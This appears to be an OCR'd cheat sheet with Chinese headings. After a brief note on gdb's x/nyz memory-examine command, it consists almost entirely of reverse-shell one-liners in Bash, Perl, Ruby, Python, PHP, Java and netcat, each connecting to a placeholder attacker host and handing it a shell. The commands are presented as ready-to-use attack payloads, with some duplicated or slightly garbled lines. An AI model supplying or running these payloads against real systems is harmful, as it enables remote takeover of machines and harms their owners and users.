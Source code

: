 # 显示特定内存地址的值
command : x/nyz (Examine)
n –> Number of fields to display ==>
y –> Format for output ==> c (character) , d (decimal) , x (Hexadecimal)
z –> Size of field to be displayed ==> b (byte) , h (halfword), w (word 32 Bit)
BASH 反弹 Shell
bash -i >& /dev/tcp/X.X.X.X/443 0>&1

exec /bin/bash 0&0 2>&0
exec /bin/bash 0&0 2>&0

0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196

0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196

exec 5<>/dev/tcp/attackerip/4444 cat <&5 | while read line; do $line 2>&5 >&5; done # or: while read line 0<&5; do $line 2>&5 >&5; done
exec 5<>/dev/tcp/attackerip/4444

cat <&5 | while read line; do $line 2>&5 >&5; done # or:
while read line 0<&5; do $line 2>&5 >&5; done

/bin/bash -i > /dev/tcp/attackerip/8080 0<&1 2>&1
/bin/bash -i > /dev/tcp/X.X.X.X/443 0<&1 2>&1
PERL 反弹 Shell
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"attackerip:443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

# Win 平台
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};’
RUBY 反弹 Shell
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

# Win 平台
ruby -rsocket -e 'c=TCPSocket.new("attackerip","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
ruby -rsocket -e 'f=TCPSocket.open("attackerip","443").to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
PYTHON 反弹 Shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attackerip",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
PHP 反弹 Shell
php -r '$sock=fsockopen("attackerip",443);exec("/bin/sh -i <&3 >&3 2>&3");'
JAVA 反弹 Shell
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/attackerip/443;cat <&5 | while read line; do /$line 2>&5 >&5; done"] as String[])
p.waitFor()
NETCAT 反弹 Shell
nc -e /bin/sh attackerip 4444
nc -e /bin/sh 192.168.37.10 443
